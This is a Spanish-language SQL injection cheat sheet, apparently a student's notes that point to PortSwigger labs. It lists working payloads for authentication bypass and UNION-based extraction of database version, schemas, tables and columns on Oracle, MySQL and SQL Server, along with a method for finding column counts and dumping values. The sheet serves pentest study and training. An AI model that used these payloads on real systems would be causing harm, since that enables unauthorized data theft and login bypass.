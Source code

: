 # SQL Injection
La inyección SQL es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante insertar código SQL malicioso en las consultas a una base de datos. Esto puede comprometer la integridad de los datos, revelar información confidencial o permitir acciones no autorizadas en el sistema afectado.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
### Version
#### Oracle
```sql
' union select BANNER,null from v$version-- -
' union select VERSION,null from V$INSTANCE-- -
```
#### MySQL
```sql
' union select @@version,null-- -
' union select VERSION(),null-- -
```
#### Microsoft SQL Server
```sql
' union select @@version,null-- -
' union select SERVERPROPERTY('productversion'),null-- -
```
### Bases de datos
#### Non-Oracle
```sql
' union select null,DISTINCT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
#### Oracle
```sql
' union select null,DISTINCT(USERNAME) FROM ALL_USERS-- -
```
### Tablas
#### Non-Oracle
```sql
' union select null,table_name FROM information_schema.tables-- -
```
#### Oracle
```sql
' union select null,table_name from all_tables-- -
```
### Columnas
#### Non-Oracle
```sql
' union select null,column_name FROM information_schema.columns where table_name='NOMBRE DE LA TABLA'-- -
```
#### Oracle
```sql
' union select null,column_name from all_tab_columns where table_name='NOMBRE DE LA TABLA'-- -
```
## Metodologia inyección basada en errores
### Determinar el numero de columnas
```sql
abc' order by 3-- -
# Respuesta 200 OK
abc' order by 20 -- -
# Respuesta 500 Internal Server Error
```
Hay por lo menos 3 columnas y menos de 20, cambiar los numeros hasta determinar el numero de columnas. Una vez encontrado el numero iniciaremos una query union select.

Supongamos que el numero de columnas reflejado es 4 primero lo confirmaremos de la siguiente forma
```sql
abc' union select null,null,null,null-- -
```
### Determinar los campos de los que se puede obtener informacion
Ahora determinaremos cual de los 4 campos es de tipo cadena para poder hacer querys sobre ese campo, introduciremos una cadena aleatoria dentro de cada uno para ver cual es reflejado.
```sql
abc' union select 'v0ydRT',null,null,null-- - # 500
abc' union select null,'v0ydRT',null,null-- - # 500
abc' union select null,null,'v0ydRT',null-- - # 200 -> Aqui se pueden injectar querys
abc' union select null,null,null,'v0ydRT'-- - # 500
```
Despues de eso se utiliza toda la informacion aterior para recopilar la informacion de la base de datos.


## Dumpear todos los valores de N numeros de columnas en una sola consulta (MySQL)
Suponiendo que despues de utilizar la metodologia anterior solo podemos injectar sentencias en un campo, podemos utilizar la funcion CONCAT() para extraer valores del numero de columnas que queramos
```sql
' union select null,CONCAT(COLUMNA 1,':',COLUMNA 2) from TABLA-- -
```
## Metodologia inyección a ciegas (Blind SQL injection)
En un ataque blind SQL injection el atacante explora la base de datos mediante consultas que, dependiendo de la respuesta del servidor (como respuestas verdaderas o falsas), le permiten inferir datos confidenciales o estructura de la base de datos sin acceder directamente a los resultados.

Ejemplo: El laboratorio https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

"This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows."
